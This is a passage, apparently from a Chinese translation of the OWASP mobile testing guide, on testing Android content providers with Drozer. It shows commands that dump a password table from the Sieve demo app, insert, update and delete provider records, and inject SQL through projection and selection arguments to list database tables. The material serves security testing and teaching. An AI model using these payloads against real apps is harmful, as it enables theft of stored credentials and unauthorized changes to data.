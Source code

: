 ```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --vertical
_id: 1
service: Email
username: incognitoguy50
password: PSFjqXIMVa5NJFudgDuuLVgJYFD+8w== (Base64 - encoded)
email: incognitoguy50@gmail.com
```

您还可以使用 Drozer 插入、更新和删除易受攻击的Content Provider(内容提供者)的记录：

- 插入记录

```
dz> run app.provider.insert content://com.vulnerable.im/messages
                --string date 1331763850325
                --string type 0
                --integer _id 7
```

- 更新记录

```
dz> run app.provider.update content://settings/secure
                --selection "name=?"
                --selection-args assisted_gps_enabled
                --integer value 0
```

- 删除记录

```
dz> run app.provider.delete content://settings/secure
                --selection "name=?"
                --selection-args my_setting
```

#### Content Provider(内容提供者)中的 SQL 注入[¶](https://mas.owasp.org/MASTG/Android/0x05d-Testing-Data-Storage/#sql-injection-in-content-providers)

Android 平台提倡使用 SQLite 数据库来存储用户数据。因为这些数据库是基于 SQL 的，所以它们可能容易受到 SQL 注入的攻击。您可以使用 Drozer 模块`app.provider.query`通过操作传递给内容提供程序的投影和选择字段来测试 SQL 注入：

```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "'"
unrecognized token: "' FROM Passwords" (code 1): , while compiling: SELECT ' FROM Passwords

dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --selection "'"
unrecognized token: "')" (code 1): , while compiling: SELECT * FROM Passwords WHERE (')
```

如果应用程序容易受到 SQL 注入攻击，它将返回详细的错误消息。Android 上的 SQL 注入可用于修改或查询来自易受攻击的内容提供程序的数据。在下面的示例中，Drozer 模块`app.provider.query`用于列出所有数据库表：

```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "*
FROM SQLITE_MASTER WHERE type='table';--"
| type  | name             | tbl_name         | rootpage | sql              |
| table | android_metadata | android_metadata | 3        | CREATE TABLE ... |
| table | Passwords        | Passwords        | 4        | CREATE TABLE ... |
| table | Key              | Key              | 5        | CREATE TABLE ... |
```
